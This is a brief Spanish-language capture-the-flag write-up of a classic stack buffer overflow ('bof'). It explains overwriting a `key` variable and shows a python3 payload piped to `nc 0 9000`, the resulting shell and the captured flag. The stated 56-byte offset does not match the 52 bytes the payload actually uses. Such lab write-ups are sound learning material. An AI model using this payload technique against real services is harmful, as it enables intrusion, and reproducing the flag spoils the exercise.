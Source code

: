 # bof

![bof](https://github.com/user-attachments/assets/9e5bb0b3-fc05-4c17-9b57-ee02c735321f)


Este es un buffer overflow clasico, necesitamos sobreescribir `key` para que la comparacion sea correcta, tambien en `readme` nos dicen que el programa esta corriendo en el puerto 9000 local, debemos explotarlo para encontrar la flag

Si hacemos un breakpoint en `*func+63` veremos que el offset es de 56 bytes (32 del arreglo, 16 para alinear la pila, 4 de `ebp` y 4 de la direccion de retorno)

*Nota: Los bytes reservados en las variables globales deben sumar un multiplo de 16 para compatibilidad con instrucciones multimedia, en este caso 32 bytes se hace crecer hasta 48 bytes*

![2025-05-05-234246_929x529_scrot](https://github.com/user-attachments/assets/0d0c1380-9d62-4f5c-93cb-4b5b53f3a097)



```
bof@ubuntu:~$ cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
bof@ubuntu:~$ (python3 -c 'import sys; sys.stdout.buffer.write(b"A"*52+b"\xbe\xba\xfe\xca\n")';cat) | nc 0 9000
ls
bof
bof.c
flag
log
super.pl
cat flag
Daddy_I_just_pwned_a_buff3r!
```

`Daddy_I_just_pwned_a_buff3r!`
